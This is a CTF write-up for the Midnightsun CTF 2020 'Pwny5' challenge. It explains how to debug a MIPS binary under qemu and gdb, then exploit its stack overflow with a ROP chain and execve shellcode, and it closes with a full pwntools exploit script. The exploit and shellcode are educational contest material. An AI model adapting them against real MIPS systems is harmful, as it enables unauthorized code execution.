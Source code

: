 ```yaml
---
title: Pwny5 | Midnightsun CTF 2020
tags: ["pwn", "stack overflow", "mips"]
authors: ["jofra"]
points: 176
solves: 27
---
```


In this writeup we will see how to run and debug a `mips` binary and how to exploit a simple buffer overflow.

## Overview
In this challenge we get a statically linked binary with a very simple vulnerability. A `scanf("%s", stack_buffer)` resulting in a classic stack buffer overflow, as can be seen in the image below.

![](/assets/img/2020-04-04-pwny5_main.png)

The interesting part is that we have a `mips` binary. This was a first for me and in this writeup we will explore how I debugged and exploited this challenge.

![](/assets/img/2020-04-04-pwny5_file.png)

## Debugging setup
First of all let's get a good debugging setup.

To simply run the binary we can use `qemu-mipsel-static ./pwn5`.

We can also make qemu wait for a gdb connection on port 1234 with `qemu-mipsel-static -g 1234 ./pwn5`. Then, on another terminal, we can launch `gdb-multiarch` and run the following commands to establish the connection (I added these to my `~/.gdbinit` to make this step automatic):
```
file ./pwn5
set arch mips
target remote localhost:1234
```

And we have debugging! As a side note, `pwndbg` was making qemu crash for some reason I did not investigate, but switching to `gef` fixed that problem for the most part.


## Exploit
### pc control
To start let's get `pc` (program counter) control. The program calls `scanf("%s", buf_64_sz)` and so we just need to fill the buffer with `"A"*64` and then we have control over the `fp` (frame pointer) and `ra` (return address).

![](/assets/img/2020-04-04-pwny5_main_end.png)

```py
fp = "BBBB"
ra = "CCCC"
s.sendline("A"*64 + fp + ra)
```

### Popping a shell
To pop a shell, my first thought was to **ROP**, calling the `read` syscall to read `/bin/sh` to the bss, and then calling the `execve` syscall. In [linux mips syscall](https://www.linux-mips.org/wiki/Syscall) arguments are passed in registers `$a0` to `$a3` and the syscall number is passed in register `$v0`.

After looking through the gadgets (extracted with `ROPgadget --binary ./pwn5`) I noticed that, contrarily to x86, having control over the argument registers `$a0`, `$a1` and `$a2` is not very easy.

For that reason I decided to use the existing `scanf` call in the binary to get data into the `bss`. As we can see in the image below, if we jump to the highlighted address `0x400758`, we can control where the scanf will write to by controlling `$v0`.

![](/assets/img/2020-04-04-pwny5_scanf_call.png)

And that is what I did. I used a gadget to control `$v0` and then jumped to `0x400758`.
```python
def set_v0(v0):
    return "".join([
        p32(0x0046f27c), # lw $v0, 0x20($sp); lw $ra, 0x2c($sp); jr $ra ; addiu $sp, $sp, 0x30
        "X"*0x20,
        p32(v0),
        "X"*0x8,
    ])

addr_to_read_to = elf.bss(0x100)
scanf_addr = 0x400758
ROP = "".join([
    set_v0(addr_to_read_to),
    p32(scanf_addr),
])

payload = "A"*64 + p32(elf.bss(0x200)) + ROP
s.sendline(payload)
```

I also made `fp` equal `bss+0x200`, because this value will be used to set `sp` after the call to `scanf`, on the instruction `move $sp, $fp` which is analogous to `leave` on x86. (can be seen in the first picture at 0x40078c). By controlling the stack pointer, we can regain `ra` and therefore `pc` control.

At this point I also realized that I could execute shellcode on the stack, bss, etc.. since all mappings are `rwx`. Since I was already reading to the bss, I decided to read shellcode, and then jump to it.

The shellcode consisted of:
 - setting `$a1` and `$a2` to 0
 - setting `$a0` to the address of `/bin/sh` by simply subtracting 8 to the original `$a0` (determined by debugging)
 - setting `$v0` with the `execve` syscall number
 - jumping to the address of a `syscall` gadget already in the binary

**NOTE**: Ideally I would simply use the `syscall` instruction (opcode `0000000c`), but it contains the byte `0c` which would cause `scanf` to stop reading. At the time I didn't know this, but there was a simple workaround. As you can see in [mips-isa](https://www.cs.cmu.edu/afs/cs/academic/class/15740-f97/public/doc/mips-isa.pdf) page 159, the syscall opcode has a `code` field which we can use to our advantage. Assembling `syscall 0xfffff` results in opcode `03ffffcc` which does NOT contain a terminating char like before. That said, jumping to a `syscall` gadget was also simple enough and I even learned about delay slots.

If you notice there is a `nop` after the `j 0x4068bc`, which is not there by accident. In MIPS there are [branch delay slots](https://en.wikipedia.org/wiki/Delay_slot), meaning the next instruction is always executed, even if the previous instruction was a branch that was taken.

```python
mips_shellcode = asm("""
    xor $a1, $a1
    xor $a2, $a2

    addiu $a0, $a0, -8 # This will point to /bin/sh

    li $v0, 4011 # execve syscall
    j 0x4068bc # syscall gadget
    nop
""")
print disasm(mips_shellcode)

# The bytes that will stop scanf from reading
assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
s.sendline(payload_2.ljust(1132-8, "Z") + "/bin/sh")
```

And we have a shell!

## Other possible methods
Now thinking about it, since the code area is writable I guess I could have just injected my shellcode right after the `scanf` call instead of injecting it in the bss and then jumping to it.

Maybe I could even just have written the shellcode on the stack and used a gadget to jump to the stack pointer, instead of reading the second time with `scanf`.


## Exploit
Here is the full exploit:

```py
from pwn import *
import sys

LOCAL = True
if "remote" in sys.argv:
    LOCAL = False


context.clear(log_level='info', arch="mips", os='linux')
elf = ELF("pwn5")

HOST = "pwn5-01.play.midnightsunctf.se"
PORT = 10005


def go():
    if LOCAL:
        # s = process("qemu-mipsel-static -g 1234 ./pwn5".split(" "))
        s = process("qemu-mipsel-static ./pwn5".split(" "))
    else:
        s = remote(HOST, PORT)

    s.recvuntil("data:")

    def set_v0(v0):
        return "".join([
            p32(0x0046f27c), # : lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
            "X"*0x20,
            p32(v0),
            "Z"*0x8,
        ])

    shellcode_addr = elf.bss(0x100)
    scanf_addr = 0x400758
    ROP = "".join([
        set_v0(shellcode_addr),
        p32(scanf_addr),
    ])

    payload = "A"*64 + p32(elf.bss(0x200)) + ROP
    print "Payload:", payload
    s.sendline(payload)

    mips_shellcode = asm("""
        xor $a1, $a1
        xor $a2, $a2

        addiu $a0, $a0, -8 # This will point to /bin/sh

        li $v0, 4011 # execve syscall
        j 0x4068bc # syscall gadget
        nop
    """)
    print disasm(mips_shellcode)

    # The bytes that will stop scanf from reading
    assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

    payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
    payload_2 = payload_2.ljust(1132-8, "Z") + "/bin/sh"
    s.sendline(payload_2)

    s.interactive()

go()
```
